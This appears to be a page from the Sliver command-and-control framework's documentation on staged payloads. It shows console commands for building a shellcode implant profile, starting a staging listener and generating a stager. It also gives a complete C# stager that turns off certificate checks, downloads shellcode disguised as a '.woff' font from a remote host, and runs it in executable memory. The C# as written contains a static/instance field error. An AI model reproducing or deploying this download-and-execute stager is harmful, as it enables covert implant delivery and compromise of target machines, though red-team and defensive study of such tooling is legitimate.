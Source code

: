## Overview

__Important:__ You must have MinGW installed on your Sliver server to get staged payload to work.

As sliver payloads can be pretty big (around 7MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `generate-profile` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > new-profile --profile-name win-shellcode --mtls 192.168.122.1 --skip-symbols --format shellcode

[*] Saved new profile win-shellcode

sliver > profiles 

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   strings only  
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   TCP   tcp       1234  
2   mtls  tcp       8888  
```

Sliver staging listeners only accept `tcp://` and `http://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

We can now generate a stager using the `generate stager` command:

```
sliver > generate stager --lhost 192.168.122.1 --lport 1234 --save /tmp

[*] Sliver stager saved to: /tmp/CIRCULAR_BRA
```

By default, the staging protocol used is TCP. The `--protocol` flag can be used to specify either `tcp` or `http` as the staging protocol.
The generated shellcode can now be used on the target system to start a new Sliver session.

## Custom stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#procedural-http-c2).
The extension used to retrieve a stage 2 payload is `.woff`.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http://SLIVER-SERVER:STAGING-PORT/whatever.woff`.

Here is a C# example of a custom HTTP stager:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private string url = "http://a.bc/fonts/FontAwesome.woff";

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            // execute native code
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
          UInt32 lpThreadAttributes,
          UInt32 dwStackSize,
          UInt32 lpStartAddress,
          IntPtr param,
          UInt32 dwCreationFlags,
          ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
          IntPtr hHandle,
          UInt32 dwMilliseconds
        );
    }
}
```